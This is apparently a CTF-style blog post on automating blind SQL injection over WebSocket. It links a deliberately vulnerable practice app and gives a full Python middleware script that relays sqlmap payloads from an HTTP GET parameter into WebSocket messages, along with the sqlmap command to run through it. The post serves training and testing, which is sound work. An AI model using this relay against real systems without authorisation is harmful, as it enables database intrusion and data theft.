 ```yaml
---
layout: post
title:  "Automating Blind SQL injection over WebSocket"
date:   2021-04-02
categories: CTF
thumbnail: /img/websocket.webp
tags: nodejs websocket sqli sqlmap docker scripting
---
```

Recently I have come across several CTF challenges on SQL injection over WebSocket. So I decided to build a vulnerable WebSocket web app for others to practice blind SQL injection over WebSocket. I spent a day building this on NodeJS from scratch which helped me better understand WebSocket implementations. I'll also share a nifty trick to perform SQL injection over WebSocket with SQLMap using an approach similar to tamper scripts.

I have pushed the vulnerable app on GitHub and added few exercises, feel free to complete those to bump your skills on blind SQLi and automation! It's built on docker so you can just clone the repository and spin it up right away, find it here:

[https://github.com/rayhan0x01/nodejs-websocket-sqli](https://github.com/rayhan0x01/nodejs-websocket-sqli)

Now coming to the second part of the post, I highly recommend one to practice and automate the blind SQL injection using Python/Ruby/PHP first for practice and better understanding but I also wanted to use SQLMap and thought of a tamper script approach. If you didn't know, the main difference between HTTP and WebSocket is that HTTP is built on a request-response model whereas WebSocket is like a Socket connection where both client and server can send data anytime asynchronously. So you can't repeat the requests made in WebSocket as you would normally do for HTTP Requests in BurpSuite.

I found that SQLMap supports the &nbsp;`ws://`&nbsp; protocol but there was very little to no documentation about it and if there is some sort of dynamic authentication token that needs to be received and sent on each request, it won't be possible to perform SQLi directly via SQLMap like &nbsp; `sqlmap -u "ws://link/" ...`&nbsp;.

So the basic idea to solve this is: 

1. have an HTTP Server script that will receive the SQLMap payload via GET parameter.
2. format the payload if needed (for example wrap it in a JSON format)
3. create a WebSocket connection to actual target, receive response and extract any token if needed.
4. Send SQLi payload and receive Output from WebSocket.
5. Display the output as response

It is similar to SQLMap tamper scripts but in this case the script will act as a standalone server vulnerable to SQLi on GET parameter.
Here is the full Python3 script created for the vulnerable web app I shared previously:

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

You will need to install the [websocket-client](https://pypi.org/project/websocket-client/) package via pip/pip3 for Python3.

The script will create an HTTP Server on port 8081 and extract first GET parameter value, send the value to &nbsp;`send_ws`&nbsp; function where it will be formated as a JSON message as required by the vulnerable web app. It will then establish a WebSocket connection to the server endpoint mentioned in &nbsp;`ws_server`&nbsp; variable and send the payload. 

Notice WebSocket is asynchronous and we are handling it here synchronously by opening a new connection every time for a payload.

If you try custom automating the SQLi via script, you can use message fingerprinting and taking different actions based on the message received on on_* event functions, use global variables, dictionaries to sync data between functions to perform full SQLi over single WebSocket connection. Or do it synchronously by opening new connection each time, but surely the first approach is more challenging and fun. 

Now to test out our middle-ware server in action, I'll first host the vulnerable web app and launch the above script in a terminal. Then execute SQLMap against the middle-ware server hosted on port 8081:

```sh
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

![sqlmap-ws-middleware](/img/sqlmap_ws.png#center)

You can also build the script in PHP and host it in a server that will save the trouble of creating a server from scratch.

That was it for this one, hope you found this useful. Until next time, stay safe!